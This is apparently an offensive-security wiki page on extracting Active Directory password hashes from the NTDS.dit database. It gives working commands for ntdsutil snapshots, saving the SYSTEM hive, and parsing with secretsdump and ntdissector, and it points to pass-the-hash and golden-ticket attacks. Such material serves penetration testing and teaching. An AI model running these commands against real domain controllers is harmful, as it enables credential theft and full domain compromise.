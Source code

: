 # NTDS Secret Extraction

## Theory

### NTDS Secret

NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The NTDS.dit file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

Once the secrets are extracted, they can be used for various attacks: [credential spraying](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/password-spraying), [stuffing](https://www.thehacker.recipes/a-d/movement/credentials/bruteforcing/stuffing), [shuffling](https://www.thehacker.recipes/a-d/movement/credentials/shuffling), [cracking](https://www.thehacker.recipes/a-d/movement/credentials/cracking), [pass-the-hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth), [overpass-the-hash](https://www.thehacker.recipes/a-d/movement/kerberos/ptk) or [silver or golden tickets](https://www.thehacker.recipes/a-d/movement/kerberos/forged-tickets).



***

## Practical

### Exfiltration

Since the NTDS.dit is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file. In order to exfiltrate it from a live domain controller and extract password hashes from it, many techniques can be used.

Just like with [SAM & LSA secrets](https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets), the SYSTEM registry hive contains enough info to decrypt the NTDS.dit data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the NTDS.dit file is, or it can be exported with `reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'`.

### AD Maintenance (NTDSUtil)

NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`.

```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```

The following files can then be exported

* `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
* `C:\Windows\Temp\NTDS\registry\SYSTEM`

{% hint style="info" %}
If the NTDS database is very large (several gigabytes), the generation of a defragmented backup with ntdsutil consumes a lot of CPU and disk resources on the server, which can cause slowdowns and other undesirable effects on the domain controller.
{% endhint %}

### Secrets Dump

Once the required files are exfiltrated, they can be parsed by tools like [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python, part of [Impacket](https://github.com/SecureAuthCorp/impacket/)) or [gosecretsdump](https://github.com/c-sto/gosecretsdump) (Go, faster for big files).

```
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```

#### [Impackt's Secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```
./secretsdump.py -ntds ~/Downloads/regbackup/ntds.dit -system ~/Downloads/regback/SYSTEM LOCAL
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>Impacket's Secretsdump Output</p></figcaption></figure>

#### [Ntdissector](https://github.com/synacktiv/ntdissector)

```
# Dump users, groups and domain backup keys
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f user,group,secret

# Dump all records from the database
ntdissector -ntds NTDS.dit -system SYSTEM -outputdir /tmp/ntdissector/ -ts -f all
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Ntdissector's Output</p></figcaption></figure>

***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds](https://www.thehacker.recipes/a-d/movement/credentials/dumping/ntds)
* [https://www.hackingarticles.in/credential-dumping-ntds-dit/](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
* [https://github.com/synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
* [https://github.com/fortra/impacket/blob/master/examples/secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

